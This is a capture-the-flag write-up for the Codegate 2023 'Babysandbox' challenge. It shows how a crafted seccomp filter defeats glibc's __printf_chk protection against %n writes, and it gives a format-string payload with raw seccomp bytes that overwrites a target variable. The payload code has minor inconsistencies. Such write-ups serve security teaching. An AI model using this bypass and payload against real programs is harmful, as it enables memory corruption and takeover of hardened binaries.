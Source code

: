 ```yaml
---
title: Babysandbox
type: writeup
date: 2023-07-09T01:52:07+03:00
description: Writeup for Babysandbox [Codegate Qualifs 2023]
author: zenbassi
tags:
- pwn
- misc
draft: false
---
```

___

## Challenge Description

Can't remember. ups

## Intuition

For this challenge we have the source code available, so looking at it we notice a few things.

Firstly, we notice that the first input is the length and the payload for a seccomp rule. Then we see that a first check is passed and `vuln` is called. We can provide a second input of maximum 256 bytes, which is used in a printf-like function. This looks like a classic string-format vulnerability.

```c
void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input); // <- string format vulnerability

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}
```

The issue is that `__printf_chk` is a hardened version of `printf` which
doesn't allow the use of `%n` to write to memory. We have to somehow bypass
this limitation in order to change the value in `target` to `0x1337`.


## Solution

The easiest way we found to generate seccomp payloads is to use `seccomp-tools`
[^1]. If we compile `return ALLOW` we get `\x06\x00\x00\x00\x00\x00\xFF\x7F`.
To make this a valid payload we prepend the 4-byte length and get
`\x08\x00\x00\x00\x06\x00\x00\x00\x00\x00\xff\x7f`. Sending this to the program 
passes the seccomp-loading phase, so we're good in that regard.

Now what? 

### The seccomp payload

We somehow have to bypass the check in `__printf_chk` and might be able to use
some seccomp rules to achieve this. Luckily, we found
[this](https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/) [^2]
blog post, which pretty much does exactly what we need. Looking in the `glib`
implementation of `__printf_chk`, we see that the issue described in the blog
still exists. To find this, I just searched on
[codebrowser](https://codebrowser.dev/glibc/glibc/) for the error `*** %n in
writab...`.

```c
if ((mode_flags & PRINTF_FORTIFY) != 0)
{
    if (!readonly_format)
    {
        extern int __readonly_area (const void *, size_t)
    attribute_hidden;
        readonly_format
    = __readonly_area (format, ((STR_LEN (format) + 1)
                    * sizeof (CHAR_T)));
    }
    if (readonly_format < 0)
    __libc_fatal ("*** %n in writable segment detected ***\n");
}
```

It's clear that `__readonly_area` gets called and returns something lower than
0. The plan would be to return something greater than 0 to bypass the security
check. Looking at the `__readonly_area` implementation we see the following:

```c
  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
```

It's clear now that if we make `fopen` fail with `ENOENT` or `EACCESS` the
function will return 1, which will bypass the check we're concerned with.
This is achievable via seccomp rules:

```
A = sys_number
A != openat ? ok : next
A = args[1]
A &= 0xff
A == 0x47 ? ok : next
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```
Notice a few things:
1. We're looking for the `openat` syscall. We wasted a lot of time trying to
   catch an `open` syscal, but eventually thought of running our binary with
   `strace`. Only then we saw the it calls `openat`.
2. We also check the first argument of the `openat` call, which is the file
   name address. `0x47` is the last byte of the `FLAG_PATH` address.

### The string format exploit

We have to write `0x1337` to the address. The way we can to this is by using
the `%n` format modifier, which writes **the number of bytes written so** to the address given. However, we have to use some tricks in order to abuse this.

1. The first trick is to use `%{k}c` which prints a character given as argument
   but also pads it to the left with spaces until the number of outputted
   characters is equal to $k$.
2. In order to use `%n` with a given address, we first have to _consume_
   some arguments. We can do that using `%p`. Now the question is, how many
   arguments? 6 at least are taken from registers, which we have no control
   over. The following are taken from the stack, 8 bytes at a time (if we use
   `%p`), so we have to carefully align everything.

Our final payload looked like this:
```
x = 4771
seccomp_payload = b" \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00 \x00\x00\x00\x18\x00\x00\x00T\x00\x00\x00\xFF\x00\x00\x00\x15\x00\x01\x00G\x00\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
payload = p32(len(payload)) + seccomp_payload

payload += f'%{x}c%p.%p.%p.%p.%p.%p.%p.%p.%p.%p%naaa'.encode()
payload += p64(0x404088) # target address
```

The length of the given format string (excluding the target address) is exactly 40 bytes, meaning that we have to use 5 `%p`s to consume it all. In the end we append the target address to the payload so `%n` writes to it. `x` has to be adjusted according to how much characters are printed overall (can be easily done with gdb).

### Flag

`bestctf{.hidden_struggled_with_this_one}`

## References (in case you used [^footnotes] thingies)
[^1]: seccomp-tools: https://github.com/david942j/seccomp-tools
[^2]: 2017 HXP CTF - hardened flag writeup: https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/
